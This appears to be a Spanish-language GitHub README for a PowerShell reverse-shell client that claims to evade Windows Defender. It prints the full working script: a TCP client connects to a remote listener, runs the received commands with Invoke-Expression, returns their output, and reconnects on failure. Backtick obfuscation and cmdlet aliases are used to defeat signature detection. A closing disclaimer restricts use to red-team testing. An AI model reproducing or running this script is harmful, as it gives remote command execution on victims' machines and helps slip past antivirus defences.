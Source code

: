 # Reverse Shell Bypass Windows PowerShell

Este script de PowerShell es un cliente de shell inverso, permite eludir de manera efectiva la seguridad de Windows Defender. El script recibe datos del servidor remoto a través de una conexión TCP. Estos datos se leen en un búfer, que es simplemente un bloque de memoria reservado para almacenar los datos temporales. En este caso, el búfer es un array de bytes con una longitud de 1024.
Dentro del bucle de lectura, el script lee los datos del búfer y los decodifica utilizando la codificación ASCII. 

## POC
[![Bypass Reverse Shell Windows Defender](https://i.imgur.com/M968BwB.png)](https://www.linkedin.com/feed/update/urn:li:ugcPost:7196028677061586944/)

## Funciones

1. **Conexión TCP**: El script intenta establecer una conexión TCP con un servidor remoto.

2. **Ejecución de comandos**: Los comandos enviados por el servidor remoto se ejecutan en la máquina local.

3. **Envío de la salida del comando**: La salida de los comandos ejecutados se envía de vuelta al servidor remoto.

4. **Reconexión automática**: Si la conexión se cierra por cualquier motivo, el script intentará reconectar después de un intervalo de tiempo especificado.

## Bypass Logico

El script utiliza varias técnicas para eludir Windows Defender sin necesidad de **third party tools**. 

- **Alias de cmdlets**: Se utilizan alias para los cmdlets de PowerShell para hacer que el código sea menos reconocible.

- **Codificación de cadenas**: Las cadenas en el código están codificadas para evitar la detección por parte de las soluciones de seguridad basadas en firmas.

- **Reintentos de conexión silenciosos**: Si la conexión se cierra, el script intentará reconectar silenciosamente.

```
# Author: Omar Salazar
# Define constants
$ip = "192.168.1.1" 
$port = 4444
$retryInterval = 10  
$maxRetries = 5  

# Create aliases for cmdlets
Set-Alias -Name "n" -Value "New-Object"
Set-Alias -Name "s" -Value "Start-Sleep"
Set-Alias -Name "g" -Value "Get-Location"

# Main loop
do {
    # Create TCP client
    $c = n S`ySt`em.N`eT.`s`ock`eTs.TC`PC`li`eNt($ip, $port)
    $s = $c.GetStream()

    # Buffer for incoming data
    $b = n Byt`e[] 1024
    $d = ""

    # Read loop
    while (($x = $s.Read($b, 0, $b.Length)) -ne 0) {
        # Decode and execute command
        $e = (n -TypeName System.Text.ASCIIEncoding).GetString($b,0, $x)
        $f = (iex $e 2>&1 | Out-String)

        # Prepare and send response
        $g = $f + (g).Path + '> '
        $h = ([text.encoding]::ASCII).GetBytes($g)
        $s.Write($h,0,$h.Length)
        $s.Flush()
    }

    # Close connection and wait before trying again
    $c.Close()
    s -Seconds $retryInterval
    $maxRetries--
} while ($maxRetries -gt 0)
```

## Descripción

Aquí, `n -TypeName System.Text.ASCIIEncoding` crea un nuevo objeto de tipo `System.Text.ASCIIEncoding`, que es una clase en .NET que proporciona métodos para codificar y decodificar texto en ASCII. Luego, el método GetString de este objeto se utiliza para decodificar los bytes en el búfer en una cadena de texto.

Una vez que los datos se han decodificado en una cadena de texto, se ejecutan como un comando de PowerShell con `iex $e 2>&1 | Out-String. iex` es un alias para `Invoke-Expression`, que ejecuta una cadena de texto como un comando de PowerShell. `2>&1` redirige los errores a la salida estándar, y `Out-String` convierte la salida en una cadena de texto.

## Advertencia

Este script puede ser utilizado para fines maliciosos si cae en las manos equivocadas. Es de uso exclusivo para pruebas de Red Team, asegúrate de entender completamente lo que hace el script antes de ejecutarlo. No me hago responsable de cualquier uso indebido de este script.
